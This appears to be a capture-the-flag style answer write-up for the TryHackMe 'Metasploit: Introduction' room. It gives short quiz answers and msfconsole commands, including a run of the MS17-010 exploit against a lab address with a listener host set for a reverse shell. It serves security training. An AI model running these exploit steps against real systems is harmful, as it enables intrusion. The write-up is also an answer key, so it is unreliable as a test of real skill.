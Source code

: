 ```yaml
---
description: https://tryhackme.com/room/metasploitintro
---
```


# Metasploit: Introduction

## Task 2 Main Components of Metasploit

#### What is the name of the code taking advantage of a flaw on the target system?

{% hint style="success" %}
`exploit`
{% endhint %}

#### What is the name of the code that runs on the target system to achieve the attacker's goal?

{% hint style="success" %}
`payload`
{% endhint %}

#### What are self-contained payloads called?

{% hint style="success" %}
`singles`
{% endhint %}

#### Is "windows/x64/pingback\_reverse\_tcp" among singles or staged payload?

{% hint style="success" %}
`singles`
{% endhint %}

## Task 3 Msfconsole

#### How would you search for a module related to Apache?

{% hint style="success" %}
`search Apache`
{% endhint %}

#### Who provided the auxiliary/scanner/ssh/ssh\_login module?

```bash
msfconsole
msf > search ssh_login
msf > use 0
msf > info
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 00-11-12.png>)

{% hint style="success" %}
`todb`
{% endhint %}

## Task 4 Working with modules

```bash
msfconsole
msf > search ms17-010
msf > use 0
msf > set RHOSTS 10.10.18.172
msf > set LHOST 10.6.9.176
msf > exploit
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 07-23-48.png>) ![](<../../.gitbook/assets/Screenshot from 2022-03-09 07-31-38.png>)

#### How would you set the LPORT value to 6666?

{% hint style="success" %}
`set LPORT 6666`
{% endhint %}

#### How would you set the global value for RHOSTS to 10.10.19.23 ?

{% hint style="success" %}
`setg RHOSTS 10.10.19.23`
{% endhint %}

#### What command would you use to clear a set payload?

{% hint style="success" %}
`unset payload`
{% endhint %}

#### What command do you use to proceed with the exploitation phase?

{% hint style="success" %}
`exploit`
{% endhint %}
